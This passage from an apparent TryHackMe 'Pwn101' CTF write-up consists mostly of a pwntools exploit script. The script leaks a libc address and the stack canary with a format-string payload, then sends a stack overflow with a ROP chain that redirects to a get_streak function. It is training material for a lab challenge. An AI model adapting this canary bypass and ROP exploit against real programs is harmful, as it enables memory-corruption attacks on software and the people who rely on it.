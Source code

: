 ```python
io = start()
io.recvuntil(b"streak?")

#input location = %6$p
#libc location = input+4 = %10$p
#canary location = input+7 = %13$p
payload = b""
payload += b"%10$p.%13$p" #here we leak 

io.sendline(payload)

io.recvuntil(b"streak:")

output = io.recv().split(b"\n")[0]

dynamic_libc_address = int(output.split(b".")[0].strip(), 16)
canary = int(output.split(b".")[1].strip(), 16)

dynamic_base_address = dynamic_libc_address-static_libc_address
binary.address = dynamic_base_address

dynamic_get_streak = binary.symbols.get_streak
rop = ROP(binary)
ret_gadget = rop.find_gadget(['ret'])[0]

payload = b""
payload += b"\x90" * 0x18+ p64(canary) + b"\x90"*8 + p64(ret_gadget) + p64(dynamic_get_streak)
io.sendline(payload)
io.interactive()
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2039.png)
